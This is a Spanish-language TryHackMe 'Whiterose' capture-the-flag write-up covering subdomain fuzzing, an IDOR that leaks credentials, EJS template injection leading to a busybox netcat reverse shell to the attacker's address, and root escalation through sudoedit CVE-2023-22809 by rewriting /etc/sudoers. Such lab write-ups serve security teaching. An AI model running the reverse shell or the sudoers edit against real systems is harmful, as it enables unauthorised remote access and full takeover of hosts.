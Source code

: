 ```yaml
---
title: Whiterose TryHackMe Writeup
tags: [writeup, tryhackme, IDOR, EJS, CVE-2023-22809, sudoedit]
style: border
color: success
description: ""
---
```


![logo](../assets/img/whiterose-tryhackme-writeup/GbKP4d8WsAA6Aul.png)

## Reconocimiento
La máquina está basada en un capítulo de la serie [**Mr.Robot**](https://es.wikipedia.org/wiki/Mr._Robot), empezamos con unas credenciales, pero no sabemos dónde las podemos utilizar:
![](../assets/img/whiterose-tryhackme-writeup/1.png)

Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
> nmap -p- -sVC --min-rate 5000 10.10.15.196 -Pn -n -oN nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 14:42 CET
Nmap scan report for 10.10.15.196
Host is up (0.054s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
507/tcp   filtered crs
40348/tcp filtered unknown
54689/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si intentamos acceder con la dirección IP por el puerto 80, nos redirecciona al dominio *cyprusbank.thm*, metemos el dominio en el fichero *hosts* y podremos observar la web del Banco Nacional de Chipre en modo mantenimiento:
![](../assets/img/whiterose-tryhackme-writeup/3.png)

Probamos a fuzzear con **dirsearch**, pero no encontramos nada, seguidamente lanzamos **wfuzz** para enumerar posibles subdominios y logramos enumerar un panel administrativo:
```
> wfuzz -c --hw 3 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.cyprusbank.thm" cyprusbank.thm

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cyprusbank.thm/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000001:   200        8 L      24 W       252 Ch      "www"                                                                                                                     
000000024:   302        0 L      4 W        28 Ch       "admin"
```

Metemos el nuevo subdominio en el fichero hosts, accedemos a él y enumeramos el panel de administración del Banco Nacional de Chipre:
![](../assets/img/whiterose-tryhackme-writeup/2.png)

Utilizamos las credenciales aportadas por el reto, son válidas, vemos que la cuenta del usuario está bien llena de *dinerito*, también se aprecia varios pagos recibidos por diferentes personas:
![](../assets/img/whiterose-tryhackme-writeup/4.png)

Los teléfonos aparecen ofuscados, tampoco tenemos acceso al apartado *Settings*:
![](../assets/img/whiterose-tryhackme-writeup/5.png)


## Explotación
Identificamos una especie de *LLM* (chatbot) o sistema de mensajería no funcional en el apartado *Messages*, nos llama mucho la atención la exposición del identificador a través del parámetro "*c*", ya que podría tener fallos de autorización y conseguir explotar un *IDOR*:
![](../assets/img/whiterose-tryhackme-writeup/6.png)

Hacemos una prueba de concepto, sustituyendo el valor "*5*" por "*1*", y parece que logramos explotar el *IDOR*:
![](../assets/img/whiterose-tryhackme-writeup/7.png)

Tras varias pruebas de fuzzing sobre el parámetro "*c*", logramos recuperar unas credenciales del usuario *Gayle Bev*:
![](../assets/img/whiterose-tryhackme-writeup/8.png)

Nos autenticamos con las credenciales de *Gayle*, ahora si es posible visualizar los teléfonos, señal que tenemos a un usuario con más privilegios:
![](../assets/img/whiterose-tryhackme-writeup/9.png)

Aunque no era parte del reto, me pareció simpático que incluyeran en la lista a *Amancio Ortega*, os dejo su teléfono por si le queréis pedir *Bizum* (será por dinero!)
![](../assets/img/whiterose-tryhackme-writeup/10.png)

Con este usuario si que logramos acceder a la zona de *Settings*, por lo que diría que el siguiente paso es explotar algunos de los siguientes campos:
![](../assets/img/whiterose-tryhackme-writeup/11.png)

Intentamos diferentes ataques de inyección de código *SQL* y *JavaScript*, en uno de ellos logramos ver que el siguiente error, donde nos muestra el fichero "*settings.ejs*":
![](../assets/img/whiterose-tryhackme-writeup/13.png)

Buscamos información y exploits para *EJS* y encontramos este:
- [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

Intentamos hacer la prueba de concepto sobre el campo *password*, vemos que la aplicación explota, pero intenta ejecutar el **netcat** sin éxito:
![](../assets/img/whiterose-tryhackme-writeup/14.png)

Utilizamos **busybox** por **netcat** y conseguimos explotar la vulnerabilidad con éxito y obtener una conexión con la máquina remota:
```
busybox nc 10.XX.XX.XX 443 -e /bin/bash
```
![](../assets/img/whiterose-tryhackme-writeup/15.png)

Tras varios directorios recursivos, identificamos el fichero *user.txt* con la flag.
```
web@cyprusbank:~$ cat user.txt      cat user.txt
cat user.txt
THM{*********************}
web@cyprusbank:~$ 
```


## Escalada de privilegios
Ejecutamos "*sudo -l*", vemos que nuestro usuario puede impersonar al usuario root sin contraseña para ejecutar *sudoedit* sobre un fichero de configuración web de **Nginx**:
```
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~$ 
```

Buscamos por Internet, encontramos varios artículos relacionados y exploits, podemos utilizar la siguiente documentación y exploit para lograr la explotación:
- [https://raw.githubusercontent.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/refs/heads/main/exploit.sh](https://raw.githubusercontent.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/refs/heads/main/exploit.sh)
- [https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

#### Explotación
El exploit no funciona al 100%, pero nos ayuda a identificar que la máquina es explotable por esta técnica y que tendremos que ejecutar la explotación de forma manual:
```
web@cyprusbank:/tmp$ ./exploit.sh         ./exploit.sh
./exploit.sh
> BINGO! User exploitable
> Opening sudoers file, please add the following line to the file in order to do the privesc:
web ALL=(ALL:ALL) ALL
Press any key to continue..
```

Vemos el código fuente, vemos que almacena en la variable de entorno *EDITOR* la línea de **vim** apuntando al fichero *sudoers*, posteriormente se debería de lograr abrir con el usuario privilegiado y añadir la línea con todos los permisos.
![](../assets/img/whiterose-tryhackme-writeup/16.png)

En nuestro caso el escenario es diferente, pero explotable ;), ejecutamos los siguientes comandos para lograr la apertura del fichero como root:
```
EDITOR="vim -- /etc/sudoers"
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Insertamos la línea, pero además añadimos "*NOPASSWD: ALL*", para evitar escribir la contraseña, guardamos y salimos del fichero:
![](../assets/img/whiterose-tryhackme-writeup/17.png)

Para finalizar, comprobamos que ya podemos ejecutar cualquier comando con con cualquier usuario, ejecutamos una **bash** como root, conseguimos escalar privilegios y leer la última flag:
```
web@cyprusbank:~/app$ sudo -l

User web may run the following commands on cyprusbank:
    (ALL : ALL) NOPASSWD: ALL
web@cyprusbank:~/app$ sudo -u root /bin/bash
root@cyprusbank:/home/web/app# id
uid=0(root) gid=0(root) groups=0(root)
root@cyprusbank:/home/web/app# ls -lna /root
total 40
drwx------  6 0 0 4096 Apr  4  2024 .
drwxr-xr-x 23 0 0 4096 Jul 12  2023 ..
lrwxrwxrwx  1 0 0    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 0 0 3106 Apr  9  2018 .bashrc
drwx------  2 0 0 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 0 0  156 Apr  4  2024 clean.sh
drwx------  3 0 0 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 0 0 4096 Jul 16  2023 .local
drwxr-xr-x  5 0 0 4096 Apr  4  2024 .pm2
-rw-r--r--  1 0 0  148 Aug 17  2015 .profile
-rw-r--r--  1 0 0   21 Jul 15  2023 root.txt
root@cyprusbank:/home/web/app# cat /root/root.txt
THM{**************}
root@cyprusbank:/home/web/app# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!